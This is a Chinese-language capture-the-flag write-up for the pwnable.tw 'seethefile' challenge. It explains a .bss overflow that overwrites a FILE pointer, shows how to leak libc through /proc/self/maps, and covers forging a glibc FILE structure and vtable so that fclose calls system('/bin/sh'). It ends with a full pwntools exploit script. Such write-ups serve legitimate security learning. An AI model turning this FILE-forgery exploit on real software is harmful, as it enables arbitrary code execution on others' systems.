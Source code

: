```yaml
---
title: seethefile
categories:
- pwnable.tw
---
```

# pwnable.tw->seethefile

## 前言

SUCTF里做了一道简单的文件题，想趁热打铁多了解一些文件结构的知识，于是时隔多年再次杀回pwnable.tw，不过遗憾的是这个题还是没能自己做出来，不过依然有一些trick可以借鉴，因此写篇writeup提醒自己

## 程序逻辑

程序也比较简单，用户输入文件名，打开之后每次读取0x18F字节，输出到屏幕上，关闭文件，退出。这里的exit前会让用户输入自己的姓名，name位于.bss段的0x0804B260处，而文件句柄fp位于.bss段的0x0804B280处。这里的scanf并没有限制输入的长度，因此存在溢出漏洞。

![code](./1.jpg)

## 数据构造

### Libc基址
根据前面学到的知识，文件可以通过覆写vtable来修改一些函数指针指向我们想要执行的函数。因此，可以通过伪造FILE结构来执行shell，首先是libc基址的寻找，也正是在这里我直接卡住放弃的。看了p4nda师傅的wp得知文件执行的时候Linux会将进程的虚拟地址空间存储在/proc/<PID>/maps里，由于我们无从得知PID，因此使用self即可看到本进程的映射表，第一行libc.so的起始地址即为libc加载的基地址。这里还要注意由于read的长度有限，需要两次读才能读到libc.so。得到Libc基址之后即可得到system的地址。

### FILE结构体
FILE结构体比较复杂，构造的时候要注意一些关键的验证条件要满足，这里给出CTF All In One的libio.h中的实现(glibc2.23)
```c++
struct _IO_FILE {
  int _flags;        /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;    /* Current read pointer */
  char* _IO_read_end;    /* End of get area. */
  char* _IO_read_base;    /* Start of putback+get area. */
  char* _IO_write_base;    /* Start of put area. */
  char* _IO_write_ptr;    /* Current put pointer. */
  char* _IO_write_end;    /* End of put area. */
  char* _IO_buf_base;    /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

struct _IO_FILE_complete
{
  struct _IO_FILE _file;
#endif
#if defined _G_IO_IO_FILE_VERSION && _G_IO_IO_FILE_VERSION == 0x20001
  _IO_off64_t _offset;
# if defined _LIBC || defined _GLIBCPP_USE_WCHAR_T
  /* Wide character stream stuff.  */
  struct _IO_codecvt *_codecvt;
  struct _IO_wide_data *_wide_data;
  struct _IO_FILE *_freeres_list;
  void *_freeres_buf;
# else
  void *__pad1;
  void *__pad2;
  void *__pad3;
  void *__pad4;
# endif
  size_t __pad5;
  int _mode;
  /* Make sure we don't get into trouble again.  */
  char _unused2[15 * sizeof (int) - 4 * sizeof (void *) - sizeof (size_t)];
#endif
};

extern struct _IO_FILE_plus _IO_2_1_stdin_;
extern struct _IO_FILE_plus _IO_2_1_stdout_;
extern struct _IO_FILE_plus _IO_2_1_stderr_;
```
```c++
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};

/* We always allocate an extra word following an _IO_FILE.
   This contains a pointer to the function jump table used.
   This is for compatibility with C++ streambuf; the word can
   be used to smash to a pointer to a virtual function table. */

struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};

extern struct _IO_FILE_plus *_IO_list_all;
```

这里伪造结构体的时候有一些关键的点需要注意:  
1. IO_FILE结构体偏移0x34的地方即_chain字段指向的也是一个FILE结构，我们可以使用_IO_2_1_stderr_，_IO_2_1_stderr_，_IO_2_1_stdout_或者，也可以使用自己的FILE结构体地址(不过实测发现stderr不可以,猜测里面用到了read和write但是没有setbuf(stderr)，即这个流没打开，不过正常应该这仨都是自动打开的才是Orz)
2. 位于0x48偏移的_lock必须指向一个为NULL的空间，因此我们可以用\x00填充name,在这里填name的地址
3. _vtable_offset要为0，其位于0x46处且只占一个字节
4. 其余部分是0或者0xffffffff按照未溢出前正常fp结构体的分布来写
5. vatable的前两个地址为NULL
6. close函数覆写为system，函数执行的时候的参数为fp，故可以将fp的开头改为/bin/sh\x00，即可让fclose(fp)变为syetm(fake_fp),fake_fp->/bin/sh\x00

综上所述最终的payload结构如下:


## exp.py

```python
#coding=utf-8
from pwn import *
debug = 0
context.update(arch='i386',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
elf = ELF('./seethefile')
libc = ELF('./libc_32.so.6')
if debug:
    sh = process('./seethefile')
else:
    sh = remote('chall.pwnable.tw',10200)
#gdb.attach(sh)
fp_addr = 0x0804B280
sh.recvuntil('Your choice :')
sh.sendline('1')
sh.recvuntil('What do you want to see :')
sh.sendline('/proc/self/maps')
sh.recvuntil('Your choice :')
sh.sendline('2')
sh.recvuntil('Your choice :')
sh.sendline('3')
sh.recvuntil('Your choice :')
sh.sendline('2')
sh.recvuntil('Your choice :')
sh.sendline('3')
##get libc base addr
sh.recvline(1)
libc_addr = int(sh.recvuntil('-')[:-1],16)
log.success('libc base addr => ' + hex(libc_addr))
#shell_addr = libc_addr + 0x5f065
shell_addr = libc_addr + libc.symbols['system']
sh.recvuntil('Your choice :')
sh.sendline('5')
##
sh.recvuntil('Leave your name :')
vtable_addr = fp_addr+0x94
payload = '\x00'*0x20
payload +=  p32(0x0804B284)
payload += '/bin/sh\x00'
payload += p32(0)*11#9
payload += p32(libc_addr+libc.symbols['_IO_2_1_stdin_'])#1
#payload += p32(0x0804b284)
payload += p32(3)+p32(0)*3 + p32(0x0804b260)#6
payload += p32(0xffffffff)*2#3
payload += p32(0) * 16#14
payload += p32(fp_addr+len(payload)+4-0x20)
payload += p32(0)*2 + p32(0) * 15 + p32(shell_addr) + p32(0) * 3
sh.sendline(payload) 
sh.interactive()
```
